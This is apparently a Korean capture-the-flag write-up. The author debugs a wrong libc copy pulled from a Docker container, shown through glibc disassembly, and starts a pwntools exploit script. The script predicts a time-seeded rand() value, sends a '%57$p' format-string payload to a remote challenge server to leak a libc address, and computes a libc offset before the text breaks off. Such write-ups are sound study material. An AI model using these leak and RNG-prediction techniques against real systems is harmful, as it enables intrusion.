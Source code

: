 ```bash
   2a1cd:       48 8b 04 24             mov    (%rsp),%rax
   2a1d1:       48 89 28                mov    %rbp,(%rax)
   2a1d4:       49 39 ea                cmp    %rbp,%r10
   2a1d7:       74 38                   je     2a211 <__gconv_get_alias_db@@GLIBC_PRIVATE+0x23c1>
   2a1d9:       48 8d 41 04             lea    0x4(%rcx),%rax
   2a1dd:       48 39 c6                cmp    %rax,%rsi
   2a1e0:       73 2f                   jae    2a211 <__gconv_get_alias_db@@GLIBC_PRIVATE+0x23c1>
   2a1e2:       48 39 ce                cmp    %rcx,%rsi
   2a1e5:       0f 85 48 01 00 00       jne    2a333 <__gconv_get_alias_db@@GLIBC_PRIVATE+0x24e3>
   2a1eb:       48 39 f3                cmp    %rsi,%rbx
   2a1ee:       0f 85           jne    2a0e0 <__gconv_get_alias_db@@GLIBC_PRIVATE+0x2290>
```

```bash
2a1ca:       48 01 fd                add    %rdi,%rbp
```

2a1ca 위치에 “mov    edi,eax”가 있어야 하는데, 진짜 다른값이 들어있다..

아무래도 도커에서 libc추출을 잘못한 것 같다..

```bash
find / -name "libc.so.6" 2>/dev/null
/srv/usr/lib/x86_64-linux-gnu/libc.so.6
/lib/libc.so.6
```

진짜네…

/srv/usr/lib/x86_64-linux-gnu/libc.so.6

이걸 추출해야 하는데

그냥 /lib 경로 들어가서 라이브러리 확인하고

/lib/libc.so.6
이걸 추출해서 쓰고 있었다..

```bash
from pwn import *
import time
from ctypes import CDLL

context.log_level = 'debug'
libc = ELF('./libc.so.6')
rop = ROP(libc)

#p = process('./chall')
p = remote('34.45.81.67', 16004)
#p = remote('localhost', 16004)

libc_CDLL = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

seed = int(time.time())
libc_CDLL.srand(seed)
nhonks = (libc_CDLL.rand() % 91) + 10

p.sendlineafter(b'> ', b'K')
p.sendlineafter(b'honks?', str(nhonks).encode())

p.sendlineafter(b'name again?', b'%57$p')
leak = p.recvuntil(b'message')

leak = leak.decode().strip()
addr_str = leak.replace("wow ", "").split()[0]
libc_leak = int(addr_str, 16)

libc_offset = 0x2a1ca
```